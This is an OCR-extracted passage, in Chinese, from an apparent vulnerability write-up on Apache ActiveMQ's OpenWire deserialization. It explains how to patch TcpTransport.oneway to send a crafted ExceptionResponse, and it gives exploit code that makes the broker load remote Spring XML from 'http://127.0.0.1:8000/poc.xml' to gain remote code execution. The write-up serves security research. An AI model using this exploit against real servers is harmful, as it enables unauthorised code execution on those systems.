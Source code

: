 ⽽ ExceptionResponse 的 dataType 是 31, 对应上图中的 ExceptionResponseMarshaller

获取到了对应的序列化器之后, 会调⽤它的 tightUnmarshal / looseUnmarshal ⽅法进⼀步处理 Message 内容

![]()

我⼀开始的思路是去修改 ObjectMessage 的 DATA_STRUCTURE_TYPE 字段, 把它改成 31 然后发送

后来想了⼀会发现不能这么搞, 因为对于不同的 Message 类型, 序列化器会单独进⾏处理, ⽐如调⽤ writeXXX 和

readXXX 的类型和次数都不⼀样

因为 ExceptionResponseMarshaller 也有 marshal ⽅法, 所以思路就改成了如何去发送⼀个经由这个 marshaller

处理的 ExceptionResponse

后⾯开始调试 client 发数据的过程

给 OpenWireFormat 的 marshal 系列⽅法打个断点

![]()

调⽤栈往前翻可以找到 TcpTransport 这个类

![]()

它的 oneway ⽅法会调⽤ wireFormat.marshal() 去序列化 command

command 就是前⾯准备发送的 ObjectMessage, ⽽ wireFormat 就是和它对应的序列化器

那么我们只需要⼿动 patch 这个⽅法, 将 command 改成 ExceptionResponse, 将 wireFormat 改成

ExceptionResponseMarshaller 即可这⾥我没有分析 OpenWire 协议, ⽽是⽤了⼀个⽐较取巧的办法

在当前源码⽬录下新建⼀个 org.apache.activemq.transport.tcp.TcpTransport 类, 然后重写对应的逻辑,

这样在运⾏的时候, 因为 classpath 查找顺序的问题, 程序就会优先使⽤当前源码⽬录⾥的 TcpTransport 类

然后是 createThrowable ⽅法的利⽤, 这块其实跟 PostgreSQL JDBC 的利⽤类似, 因为 ActiveMQ ⾃带 spring
相关

依赖, 那么就可以利⽤ ClassPathXmlApplicationContext 加载 XML 实现 RCE

  

public void oneway(Object command) throws IOException {

this.checkStarted();

Throwable obj = new

ClassPathXmlApplicationContext("http://127.0.0.1:8000/poc.xml");

ExceptionResponse response = new ExceptionResponse(obj);

this.wireFormat.marshal(response, this.dataOut);

this.dataOut.flush();

}

  

因为在 marshal 的时候会调⽤ o.getClass().getName() 获取类名, ⽽ getClass ⽅法⽆法重写 (final),
所以我在
